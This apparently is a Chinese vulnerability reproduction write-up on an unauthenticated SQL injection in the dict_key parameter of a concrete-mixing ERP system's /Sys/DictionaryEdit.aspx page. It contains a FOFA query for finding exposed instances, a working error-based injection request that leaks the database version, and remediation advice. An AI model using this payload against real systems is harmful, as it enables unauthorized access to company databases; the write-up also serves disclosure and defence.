

# 商混ERP系统 SQL注入漏洞复现

### 0x01 产品简介

   杭州荷花软件有限公司开发的商混[ERP系统](https://so.csdn.net/so/search?q=ERP%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020)。这套系统主要是处理建筑公司或者各项工程的搅拌站管理，内部含有销售模块、生产管理模块、实验室模块、人员管理等

### 0x02 漏洞概述

 商混ERP系统/Sys/DictionaryEdit.aspx处dict\_key参数存在SQL报错注入漏洞，未授权的攻击者可通过该漏洞获取数据库权限。

### 0x03 复现环境

FOFA：app="商混ERP系统"


### 0x04 漏洞复现

PoC

```cobol
GET /Sys/DictionaryEdit.aspx?dict_key=1%27%20and%201=convert(varchar(255),@@version)-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

查询数据库版本



### 0x05 修复建议

使用预编译语句，所有的查询语句都使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到SQL语句中。当前几乎所有的数据库系统都提供了参数化SQL语句执行接口，使用此接口可以非常有效的防止SQL注入攻击。

对进入数据库的特殊字符（'"@&\*;等）进行转义处理，或编码转换。

确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为int型。

过滤危险字符，例如：采用正则表达式匹配union、sleep、and、select、load\_file等关键字，如果匹配到则终止运行。
